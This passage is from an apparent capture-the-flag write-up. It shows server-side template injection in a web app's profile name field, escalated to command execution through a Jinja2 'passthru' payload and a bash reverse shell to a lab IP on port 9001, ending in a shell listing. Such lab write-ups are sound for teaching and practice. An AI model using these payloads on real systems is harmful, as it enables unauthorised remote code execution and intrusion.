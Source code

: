 Now, as we can see, a new option was added to our dashboard, we can see the `profile` section:


![](../images/Pasted%20image%2020250506142950.png)

As seen, we are able to update our email, first name and last name, let's send the request to our proxy so we can analyze it:

![](../images/Pasted%20image%2020250506143115.png)

Since we can see that `admin` is reflected on the dashboard main page, if we change the `fname` to something else, it could be reflected on there again, if this works, we are dealing with `SSTI`, let's test it out:

![](../images/Pasted%20image%2020250506143213.png)


![](../images/Pasted%20image%2020250506143224.png)

![](../images/Pasted%20image%2020250506143243.png)

As seen, this is vulnerable to `SSTI`, now, we must identify the template engine, let's do it:

```jinja2
{{}}
```

After using that payload, i got this:

![](../images/Pasted%20image%2020250506143500.png)

This means that the template engine we are dealing with is `jinja2`, based on that, we can achieve `rce` by doing:

```jinja2
{{['id',""]|sort('passthru')}}
```

![](../images/Pasted%20image%2020250506143705.png)

As seen we can achieve `rce`, let's send a reverse shell using:

```jinja2
{{["bash -c 'exec bash -i >& /dev/tcp/10.11.136.34/9001 0>&1'",""]|sort('passthru')}}
```

If we check our listener:

![](../images/Pasted%20image%2020250506144244.png)

```
www-data@injectics:/var/www/html$ ls -la
ls -la
total 548
drwxr-xr-x 6 ubuntu ubuntu   4096 Jul 31  2024 .
drwxr-xr-x 3 root   root     4096 Jul 19  2024 ..
-rw-rw-r-- 1 ubuntu ubuntu   1024 Jul 31  2024 .conn.php.swp
-rw-r--r-- 1 ubuntu ubuntu    121 Jul 31  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu   7370 Jul 23  2024 adminLogin007.php
-rw-r--r-- 1 ubuntu ubuntu 433129 Jul 18  2024 banner.jpg
-rw-r--r-- 1 ubuntu ubuntu     48 Jul 17  2024 composer.json
-rw-r--r-- 1 ubuntu ubuntu   8723 Jul 17  2024 composer.lock
-rw-r--r-- 1 ubuntu ubuntu   2867 Jul 31  2024 conn.php
drwxrwxr-x 2 ubuntu ubuntu   4096 Jul 18  2024 css
-rw-r--r-- 1 ubuntu ubuntu   7499 Jul 23  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu   7227 Jul 23  2024 edit_leaderboard.php
drwxrwxr-x 2 ubuntu ubuntu   4096 Jul 18  2024 flags
-rw-r--r-- 1 ubuntu ubuntu   2101 Jul 22  2024 functions.php
-rw-r--r-- 1 ubuntu ubuntu   6083 Jul 23  2024 index.php
-rwxrwxr-x 1 ubuntu ubuntu   3947 Jul 23  2024 injecticsService.php
```